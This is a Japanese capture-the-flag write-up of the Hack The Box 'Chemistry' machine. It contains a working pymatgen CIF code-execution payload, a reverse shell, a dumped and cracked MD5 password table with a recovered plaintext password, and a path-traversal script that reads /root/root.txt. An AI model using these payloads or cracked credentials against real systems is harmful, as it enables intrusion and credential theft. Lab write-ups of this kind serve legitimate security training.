


# Chemistry

Linux・Easy

# 初期偵察
## nmap
```
──(kali㉿kali)-[~/htb/Machines/chemistry]
└─$ nmap -sC -sV 10.10.11.38
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 20:58 JST
Nmap scan report for 10.10.11.38
Host is up (0.30s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp  open     upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Wed, 11 Dec 2024 11:59:37 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
```

オープンポート
- 22/tcp    open     ssh
- 5000/tcp  open     upnp?




ブラウザを使用してport5000にアクセスする
登録してログイン




googleでCIF file RCEでファイル内のRCE脆弱性を検索

CIF File RCE（任意コード実行）とは？

>CIF (Crystallographic Information File) は、結晶構造データを記述するための標準フォーマットで、化学・材料科学の分野でよく使用される。しかし、特定のソフトウェア（特にCIFパーサー）に脆弱性がある場合、RCE（Remote Code Execution：リモートコード実行）を引き起こす可能性がある


https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

上記を参考にPoCを送る

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.xx.xx");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

## リバースシェル
```
──(kali㉿kali)-[~/htb/Machines/chemistry]
└─$ nc -lvnp 4444
listening on [any] 4444
bash: cannot set terminal process group (1068): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$ whoami
whoami
app
```
探索

```
app@chemistry:~$ ls -a
Is -a
app.py
.bash_history
.bash_logout
.bashrc
.cache
.gnupg
instance
linpeas.sh
.local
nc*at
.profile
pspy64
pwned
rev
.sqlite_history
static
templates
uploads
```

databaseを確認する
```
app@chemistry:~/instances sqlite3 database.db
sqlite3 database.db
SELECT FROM user,
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert 3dec299e06f7ed187bac06bd3b670ab2
6|carlos 9ad48828b0955513f7cf0f7f6510c8f8
7|peter 6845c17d298d95aa942127bdad2ceb9b
8|victoria c3601ad2286a4293868ec2a4bc606ba3
9|tania a4aa55e816205dc0389591c9f82f43bb
10|eusebio/6cad48078d0241cca9a7b322ecd073b3
11|gelacial4af70c80b68267012ecdac9a7e916d18
12|fabian 4e5d71f53fdd2eabdbabb233113b5dc0
13|axel 934719724ca083b17e39555c36fd9007
14|kristel 6896ba7b11a62cacffbdaded457c6d92
15|nano 1657ec96792937f71c20c9e1bdc2300f
16|kalijd6ca3fd0c3a3b462ff2b83436dda495e
17|a|0cc175b9c0f1b6a831c399e269772661
18|mj|007de96adfa8b36dc2c8dd268d039129
19|123/202cb962ac59075b964b07152d234b70
20|test1/5a105e8b9d40e1329780d62ea2265d8a
21|tim|81dc9bdb52d04dc20036dbd8313ed055
22|test|098f6bcd4621d373cade4e832627b416
23|1234|81dc9bdb52d04dc20036dbd8313ed055
24|abc|900150983cd24fb0d6963f7d28e17172
```

## hashcatで解析
```
#hashcat -m 0 admin../dictionary/rockyou.txt --show
#hashcat -m 0 app../dictionary/rockyou.txt --show
#hashcat-m 0 rosa../dictionary/rockyou.txt --show
63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados
```

rosaについて分かった
`rosa`:`unicorniosrosados`


# 初期侵入
## SSHログイン
```
└─$ ssh rosa@10.10.11.38 
The authenticity of host '10.10.11.38 (10.10.11.38)' can't be established.
ED25519 key fingerprint is SHA256:pCTpV0QcjONI3/FCDpSD+5DavCNbTobQqcaz7PC6S8k.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.38' (ED25519) to the list of known hosts.
rosa@10.10.11.38's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 16 Feb 2025 04:49:08 AM UTC

  System load:           0.0
  Usage of /:            73.4% of 5.08GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             228
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.38
  IPv6 address for eth0: dead:beef::250:56ff:feb0:8d6a

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

9 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Feb 16 03:31:38 2025 from 10.10.14.37
rosa@chemistry:~$ whoami
rosa
rosa@chemistry:~$ ls
exploit.sh  user.txt  vuln.sh
rosa@chemistry:~$ cat user.txt
584*****************************
```

## user.txt
`584*****************************`


# 権限昇格

権限確認する
sudo -l
```
root         818  0.0  0.2  99900  5732 ?        Ssl  Feb15   0:00 /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
root         826  0.0  0.3 235572  7488 ?        Ssl  Feb15   0:01 /usr/lib/accountsservice/accounts-daemon
root         833  0.0  0.1  81960  3740 ?        Ssl  Feb15   0:00 /usr/sbin/irqbalance --foreground
root         839  0.0  0.9  29648 18352 ?        Ss   Feb15   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root         841  0.0  0.3 232732  6828 ?        Ssl  Feb15   0:00 /usr/lib/policykit-1/polkitd --no-debug
root         853  0.0  1.4 1320052 28984 ?       Ssl  Feb15   0:01 /usr/lib/snapd/snapd
root         857  0.0  0.3  17360  7908 ?        Ss   Feb15   0:00 /lib/systemd/systemd-logind
root         859  0.0  0.6 393268 12244 ?        Ssl  Feb15   0:00 /usr/lib/udisks2/udisksd
root         891  0.0  0.5 241372 11140 ?        Ssl  Feb15   0:00 /usr/sbin/ModemManager
root        1079  0.0  1.4 257652 28748 ?        Ssl  Feb15   0:00 /usr/bin/python3.9 /opt/monitoring_site/app.py
root        1083  0.0  0.1   6816  2996 ?        Ss   Feb15   0:00 /usr/sbin/cron -f
root        1098  0.0  0.0   5828  1820 tty1     Ss+  Feb15   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root        1099  0.0  0.3  12188  7360 ?        Ss   Feb15   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root       13167  0.0  0.0      0     0 ?        I    03:08   0:00 [kworker/0:0-events]
root       13856  0.0  0.0      0     0 ?        I    03:55   0:01 [kworker/0:2-events]
root       13986  0.0  0.0      0     0 ?        I    04:28   0:00 [kworker/u256:0-events_unbound]
root       14061  0.0  0.4  13940  9132 ?        Ss   04:48   0:00 sshd: rosa [priv]
root       14080  0.0  0.0      0     0 ?        I    04:49   0:00 [kworker/1:0-events]
root       14209  0.0  0.0      0     0 ?        I    04:49   0:00 [kworker/u256:2-events_power_efficient]
rosa       14230  0.0  0.0   6432   720 pts/0    S+   04:56   0:00 grep --color=auto root
root       14231  0.0  0.1  22852  3904 ?        S    04:56   0:00 /lib/systemd/systemd-udevd
```


探索するとexploit.shがあるので実行するとroot.txtが得られる
```
rosa@chemistry:~$ ls
exploit.sh  user.txt  vuln.sh
rosa@chemistry:~$ cat exploit.sh 
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

rosa@chemistry:~$ bash exploit.sh 
[+] Testing with /assets/../root/root.txt
        Status code --> 404
[+] Testing with /assets/../../root/root.txt
        Status code --> 404
[+] Testing with /assets/../../../root/root.txt
        Status code --> 200
f4c*****************************
```

## root.txt
`f4c*****************************`